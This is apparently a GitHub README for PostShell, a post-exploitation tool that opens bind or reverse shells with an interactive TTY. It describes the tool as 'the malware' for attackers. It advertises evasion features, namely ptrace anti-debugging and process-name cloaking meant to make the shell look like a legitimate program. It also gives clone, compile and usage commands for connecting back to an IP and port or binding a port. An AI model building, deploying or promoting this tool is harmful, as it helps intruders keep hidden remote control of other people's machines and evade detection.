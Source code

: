 # PostShell
PostShell is a post-exploitation shell that includes both a bind and a back connect shell. It creates a fully interactive TTY which allows for job control. The stub size is around 14kb and can be compiled on any Unix like system.

# ScreenShots
![Screenshot](https://github.com/rek7/postshell/blob/master/img01.png)
Banner and interaction with shell after a connection is started.

## Why not use a traditional Backconnect/Bind Shell?
PostShell allows for easier post-exploitation by making the attacker less dependant on dependencies such as Python and Perl. It also incorporates both a back connect and bind shell, meaning that if a target doesn't allow outgoing connections an operator can simply start a bind shell and connect to the machine remotely. PostShell is also significantly less suspicious than a traditional shell due to the fact both the name of the processes and arguments are cloaked.

## Features
+ Anti-Debugging, if ptrace is detected as being attached to the shell it will exit.
+ Process Name/Thread names are cloaked, a fake name overwrites all of the system arguments and file name to make it seem like a legitimate program.
+ TTY, a TTY is created which essentially allows for the same usage of the machine as if you were connected via SSH.
+ Bind/Backconnect shell, both a bind shell and back connect can be created.
+ Small Stub Size, a very small stub(<14kb) is usually generated.

## Getting Started
1. Downloading: `git clone https://github.com/rek7/postshell`
2. Compiling: `cd postshell && sh compile.sh`
This should create a binary called "stub" this is the malware.

## Commands
```bash
$ ./stub
Bind Shell Usage: ./stub port
Back Connect Usage: ./stub ip port
$
```
## Example Usage
Backconnect:
```bash
$ ./stub 127.0.0.1 13377
```
Bind Shell:
```bash
$ ./stub 13377
```

